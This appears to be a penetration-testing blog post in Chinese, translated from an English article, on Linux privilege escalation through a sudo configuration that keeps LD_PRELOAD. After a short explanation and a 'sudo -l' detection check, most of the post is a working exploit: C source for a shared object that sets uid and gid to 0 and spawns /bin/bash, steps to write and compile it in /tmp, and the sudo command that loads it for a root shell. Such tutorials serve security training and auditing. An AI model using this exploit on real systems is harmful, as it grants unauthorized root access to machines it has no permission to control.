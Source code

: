 ```yaml
---
layout: post
title:  "Sudo (LD_PRELOAD) (Linux Privilege Escalation)"
subtitle: "Liunx權限提升-LD_PRELOAD環境變量"
author: Mars Cheng
tags: 
- Penetration Testing
- Security Technique
- Linux System
- Translating Articles
---
```

## Overview

> This is Translating Articles which from <http://touhidshaikh.com/blog/?p=827>, if any problem,  If any mistake or suggestion, please let we konw. Thanks.
> 本篇文章翻譯自 <http://touhidshaikh.com/blog/?p=827>，如有任何問題敬請不吝指教。


> 本文針對LD_PRELOAD的環境變量進行權限提升。在進行漏洞利用之前，我們來讀一些有關LD_PRELOAD的內容。

## Index

1. 什麼是LD_PRELOAD?
2. 偵測
3. LD_PRELOAD漏洞利用
   
---
### 1. 什麼是LD_PRELOAD?

LD_PRELOAD是一個可選擇性的環境變量，包含一個或多個共享函式庫或共享對象的路徑，載入器會在比C runtime函式庫（libc.so）在內的其他共享函式庫預先載入。

為了避免這種機制被用做suid/sgid的攻擊向量。如果ruid!=euid，載入程序會忽略LD_PRELOAD，對於此類功能，只會預先載入也是suid/sgid的函式庫

---
### 2. 偵測

```
user@debian:~$ sudo -l 
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD
```
![](https://i.imgur.com/8BhGJqI.png)

如果終端機的輸出結果如上，代表目標是易遭受攻擊的。可以藉由利用LD_PRELOAD來獲得root權限。而對於這一權限提升方式，需要一些使用LD_PRELOAD envr的sudo權限指令。

程式檔案：
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

---
### 3. LD_PRELOAD漏洞利用

開啟終端並轉到任何可寫入的目錄已刪除shell
可寫入的目錄像是：
* /tmp
* /var/tmp
* /dev/shm

本文以/tmp目錄作為示範
**步驟1**
```
user@debian:/tmp$ cat << EOF >> evil.c
> #include <stdio.h>
> #include <sys/types.h>
> #include <stdlib.h>
> void _init() {
> unsetenv("LD_PRELOAD");
> setgid(0);
> setuid(0);
> system("/bin/bash");
> }
> EOF
```
**步驟2**
編譯目標檔案
```
gcc -fPIC -shared -o evil.so evil.c -nostartfiles
```

**步驟3**
```
sudo LD_PRELOAD=evil.so <COMMAND>
```
<COMMAND>代表允許使用sudo執行哪個指令，可以使用當前使用者允許使用的指令
![](https://i.imgur.com/5WS1l6t.png)

![](https://i.imgur.com/5SUQcMC.png)

![](https://i.imgur.com/GnJ4o9Z.png)




### Reference

[1] <http://touhidshaikh.com/blog/?p=827>


